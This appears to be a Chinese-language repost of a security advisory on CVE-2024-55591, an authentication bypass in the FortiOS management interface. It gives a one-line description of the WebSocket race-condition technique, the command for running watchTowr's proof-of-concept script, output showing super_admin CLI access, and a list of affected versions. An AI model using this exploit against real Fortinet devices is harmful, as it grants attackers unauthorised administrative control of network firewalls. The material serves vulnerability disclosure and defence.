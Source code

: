 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2NTk4MTE1MQ==&mid=2247487488&idx=1&sn=a07090fe47afa7fa1c9bb2f968aadd2a

#  CVE-2024-55591 Fortinet FortiOS 身份验证绕过  
 TtTeam   2025-06-20 08:34  
  
针对 CVE-2024-55591 的概念验证，针对 FortiOS (Fortigate) 管理接口。通过创建暴力破解 WebSocket 连接来创建竞争条件并绕过身份验证，可以发送未经身份验证的 FortiOS CLI 命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB1BWA2iaJfo4q3h3ib35ndnzFLO95w3cjDEuQqlmhnez135SfHlqlnyY8ibI9CqtYgxa0L0IL0cl7ic3A/640?wx_fmt=png&from=appmsg "")  

```
python CVE-2024-55591-PoC.py --host 192.168.1.5 --port 443 --command &#34;get system status&#34; --user watchTowr --ssl
             __         ___  ___________                   
     __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
     \ \/ \/ \__  \    ___/ ___\|  |  \\|    | /  _ \ \/ \/ \_  __ \
      \     / / __ \|  | \  \\___|   Y  |    |(  <_> \     / |  | \
       \/\_/ (____  |__|  \\\\___  |___|__|__  | \\__  / \\/\_/  |__|   
                  \\          \\     \\                              


        CVE-2024-55591.py
        (*) Fortinet FortiOS Authentication Bypass (CVE-2024-55591) POC by watchTowr


          - Sonny , watchTowr (sonny@watchTowr.com)


        CVEs: [CVE-2024-55591]


[*] Checking if target is a FortiOS Management interface
[*] Target is confirmed as a FortiOS Management interface
[*] Target is confirmed as vulnerable to CVE-2024-55591, proceeding with exploitation
Output from server: �m&#34;watchTowr&#34; &#34;admin&#34; &#34;watchTowr&#34; &#34;super_admin&#34; &#34;watchTowr&#34; &#34;watchTowr&#34; [13.37.13.37]:1337 [13.37.13.37]:1337


Output from server: �
get system status


Output from server: �~�FAKESERIAL # &#34;Local_Process_Access&#34; &#34;Local_Process_Access&#34; &#34;root&#34; &#34;&#34; &#34;&#34; &#34;none&#34; [x.x.x.x]:54546 [x.x.x.x]:443
Unknown action 0


FAKESERIAL # 
FAKESERIAL # get system status
Version: FortiGate-VM64-AWS v7.0.16,build0667,241001 (GA.M)
Security Level: High
Firmware Signature: certified
Virus-DB: 1.00000(2018-04-09 18:07)


```

  
影响的版本  
- FortiOS 7.0.0 至 7.0.16  
  
- FortiProxy 7.0.0 至 7.0.19  
  
- FortiProxy 7.2.0 至 7.2.12  
  
